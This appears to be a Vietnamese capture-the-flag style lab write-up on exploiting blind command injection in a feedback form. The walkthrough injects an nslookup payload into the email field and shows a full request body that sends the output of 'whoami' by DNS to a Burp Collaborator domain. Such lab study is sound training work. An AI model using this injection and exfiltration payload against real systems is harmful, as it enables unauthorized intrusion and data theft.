





# Lab 05: Blind OOB Data Exfiltration

## Mục tiêu
Khai thác blind command injection để lấy giá trị `whoami` qua DNS query gửi tới Burp Collaborator.

## Đề bài

<br><br>

## Bước 1: Chuẩn bị Collaborator domain
Trong Burp Collaborator, lấy domain riêng:

```txt
6cjll4df2lvok68s08umrx5x6ocg07ow.oastify.com
```

## Bước 2: Bắt request feedback
Mở trang `Submit feedback`, gửi form và chặn request `POST /feedback/submit`.


<br><br>

## Bước 3: Chèn payload exfiltration
Inject vào trường `email` payload:

```txt
||nslookup $(whoami).6cjll4df2lvok68s08umrx5x6ocg07ow.oastify.com||
```

Request body mẫu:

```http
csrf=<token>&name=sang&email=sang@daden.com||nslookup $(whoami).6cjll4df2lvok68s08umrx5x6ocg07ow.oastify.com||&subject=sang&message=sang
```

Giải thích nhanh:
- `$(whoami)` được shell thực thi trước, trả về username hiện tại.
- Kết quả đó được ghép vào đầu domain.
- `nslookup` buộc server tạo DNS request ra ngoài, nên ta đọc được username trong log Collaborator.


<br><br>

## Bước 4: Lấy username từ Collaborator
Vào Collaborator và `Poll now`, xem DNS query nhận được. Phần đầu hostname chính là output của `whoami` (ví dụ: `peter-Qgz8EE`).


<br><br>

## Bước 5: Submit đáp án
Điền username vừa lấy được vào `Submit solution`.


<br><br>

## Kết quả
Đã giải quyết lab bằng cách exfiltrate output `whoami` qua DNS query đến Burp Collaborator.
